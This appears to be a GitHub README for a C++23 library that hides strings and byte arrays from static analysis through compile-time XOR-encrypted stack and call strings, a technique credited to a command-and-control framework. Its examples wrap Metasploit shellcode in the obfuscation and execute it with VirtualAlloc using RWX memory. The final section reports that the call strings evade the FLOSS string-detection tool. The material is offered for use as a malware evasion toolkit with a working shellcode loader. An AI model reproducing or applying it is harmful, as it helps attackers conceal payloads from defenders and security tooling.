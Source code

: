 # malstring
Using c++23 compile-time magic to produce obfuscated PIC strings and arrays.

## Stack strings
Probably you already know the following code will force runtime construction of string "Stack string" on the stack.
```c++
#include <cstdio>

int main() {
    char stack_string[] = {'S', 't', 'a', 'c', 'k', ' ', 's', 't', 'r', 'i', 'n', 'g', '\0'};

    printf(stack_string);
}
```

[https://godbolt.org/z/hPYEnjn3s](https://godbolt.org/z/hPYEnjn3s)

This method is useful if you want to generate PIC code without using an .rdata section to store strings, or simply hide strings from static string search tools.

The only problem with this. Writing each string this way is extremely inconvenient. Also it's less readable.
This problem is especially evident when you want to encrypt stack string in compile time.

My library, using various metaprogramming tricks, produces compile-time XOR-encrypted stack strings without losing readability and convenience.
For each string it is possible to use its own XOR key.

```c++
StackString<"Null-terminated Stack String", RAND()> ss;
pm.EncryptDecrypt(); // don't forget to decrypt the string before using it
std::cout << ss.Buf << '\n';
pm.EncryptDecrypt(); // encrypt again after use

StackString<"Stack String without null terminator", RAND(), false> ss2;
pm2.EncryptDecrypt();
std::cout << ss2.Buf << '\n';
pm2.EncryptDecrypt();
```

[https://godbolt.org/z/dGePWeoaa](https://godbolt.org/z/dGePWeoaa)


## Call Strings

I found this technique in [HAVOC](https://github.com/HavocFramework/Havoc) C2 framework.

```c++
#include <cstdio>

#if (defined(_MSC_VER))
#define NOINLINE __declspec(noinline)
#else
#define NOINLINE __attribute__((noinline))
#endif


NOINLINE char SymH() {
	return 'H';
}
NOINLINE char SymE() {
	return 'E';
}
NOINLINE char SymL() {
	return 'L';
}
NOINLINE char SymO() {
	return 'O';
}
NOINLINE char SymNULL() {
	return '\0';
}


int main() {
    char Hello[6];
    Hello[0] = SymH();
	Hello[1] = SymE();
	Hello[2] = SymL();
	Hello[3] = SymL();
	Hello[4] = SymO();
	Hello[5] = SymNULL();
    
    printf("%s\n", Hello);
}
```
gcc optimizes all calls, so optimization must be disabled. Msvc works well even with optimization enabled.
[https://godbolt.org/z/4TGso8heb](https://godbolt.org/z/4TGso8heb)


My library also provides the ability to create XOR-encrypted call strings in a much more convenient way.

```c++
    CallString<"Null-terminated Call String", RAND()> cs;
	cs.EncryptDecrypt(); // don't forget to decrypt the string before using it
	printf(cs.Buf);
	cs.EncryptDecrypt(); // encrypt again after use

    CallString<"Call String without null terminator", RAND()> cs2;
	cs2.EncryptDecrypt();
	printf(cs2.Buf);
	cs2.EncryptDecrypt();

```
[https://godbolt.org/z/8n49Knov3](https://godbolt.org/z/8n49Knov3)

## Call Array

You can store more than just strings. This library also provides a way to store arrays.
This code demonstrates how to call the Metasploit shellcode, which launches Calc.exe

```c++
int main()
{
	constexpr std::array<std::uint8_t, 108> shellcode {
		0x53, 0x56, 0x57, 0x55, 0x54, 0x58, 0x66, 0x83, 0xE4, 0xF0, 0x50, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C,
		0x63, 0x54, 0x59, 0x48, 0x29, 0xD4, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10,
		0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74,
		0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81,
		0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE,
		0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x68, 0x5C, 0x5D, 0x5F, 0x5E, 0x5B, 0x0C, 0xCC, 0xCC,
	};
	
	CallArray<shellcode.size(), shellcode, RAND()> calc;
	calc.EncryptDecrypt();
	
	const auto alloc = VirtualAlloc(0, sizeof(calc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(alloc, calc.Buf, sizeof(calc));
	
	((void (*)())alloc)();

	calc.EncryptDecrypt();
}

```

You can even pass hex string instead of constexpr array.

``` c++
int main()
{


	CallArrayFromHex<"53 56 57 55 54 58 66 83 E4 F0 50 6A 60 5A 68 63 61 6C "
	                 "63 54 59 48 29 D4 65 48 8B 32 48 8B 76 18 48 8B 76 10 48 AD "
	                 "48 8B 30 48 8B 7E 30 03 57 3C 8B 5C 17 28 8B 74 1F 20 48 01 FE 8B 54 "
	                 "1F 24 0F B7 2C 17 8D 52 02 AD 81 3C 07 57 69 6E 45 75 EF 8B 74 1F 1C "
	                 "48 01 FE 8B 34 AE 48 01 F7 99 FF D7 48 83 C4 68 5C 5D 5F 5E 5B 0C "
	                 "CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC", RAND()> calc;

	calc.EncryptDecrypt();
	
	const auto alloc = VirtualAlloc(0, sizeof(calc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(alloc, calc.Buf, sizeof(calc));
	
	((void (*)())alloc)();

	calc.EncryptDecrypt();
}

```
The only limitation of this method is EXTREMELY long compilation time for large arrays. A 1kb shellcode takes about 30 minutes compilation time.

## Detection
I tested StackString and CallString with [FLOSS](https://github.com/mandiant/flare-floss)
The StackString is sometimes detectable as "Tight string" (runtime decrypted stack string)
CallString is undetectable.

## Usage
Just copy header into your project. set c++ standard to c++23 or latest.
CRT isn't required.
